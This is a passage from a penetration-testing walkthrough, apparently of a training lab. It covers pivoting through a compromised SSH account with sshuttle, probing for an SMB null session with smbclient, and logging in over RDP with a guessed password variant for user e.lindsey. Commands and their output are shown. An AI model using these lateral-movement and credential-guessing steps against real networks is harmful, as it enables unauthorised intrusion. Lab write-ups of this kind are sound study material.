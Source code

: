 The most interesting thing from this scan is that TCP/139 and TCP/445 are open and running on the Windows Machine. This should be of particular interest to us because of the possibility that there is a [NULL Session](http://www.dummies.com/programming/networking/null-session-attacks-and-how-to-avoid-them/) Vulnerability.

Meaning, that we would be able to access the SMB Shares on the Windows machines without any valid credentials.

But, before we can attempt the exploit that and dig for any further information... let's start up our VPN Tunnel via our compromised SSH access on the gw machine.

```console
root@kali:~# sshuttle -r e.lindsey@192.168.101.9 192.168.0.0/24
e.lindsey@192.168.101.9's password: 
client: Connected.
```

Okay, now that we have access to the internal network, let's utilize [smbclient](https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html) to try and access the SMB Shares on the machine. When promoted for a password you can just type in __anonymous__ or not use a password at all.

```console
root@kali:~# smbclient -L 192.168.0.3
WARNING: The "syslog" option is deprecated
Enter root's password: 
Anonymous login successful
Domain=[GDS-OFFICE] OS=[Windows Server 2008 R2 Standard 7601 Service Pack 1] Server=[Windows Server 2008 R2 Standard 6.1]

	Sharename       Type      Comment
	---------       ----      -------
Error returning browse list: NT_STATUS_ACCESS_DENIED
Connection to 192.168.0.3 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

Well that's unfortunate... it seems that NetBIOS over TCP is disabled and we have no privileges to see anything on the SMB Shares - meaning that the NULL Sessions vulnerability is not in any way viable for us.

But... we did get some more information from the machine. If we look closely, we can see that we are provided with the domain name of the network, which is __GDS-OFFICE__. We are also provided with the Windows Version!

## Utilizing RDP for Access:

Now that we know the domain name, let's utilize [rdesktop](http://www.rdesktop.org/) to connect to the Windows machine via the RDP Client running on TCP/135 using e.lindsey's credentials.

Just a quick note, the password for e.lindsey won't work with RDP due to the fact that the windows machine might have implemented a password policy. So I attempted to change the `L` in lindsey's password to a capital letter which might satisfy the requirements.

```console
root@kali:~# rdesktop -u "GDS-OFFICE\\e.lindsey" -p Lindsey123 -r disk:share=/root/gds 192.168.0.3
Autoselected keyboard map en-us
ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Connection established using SSL.
```

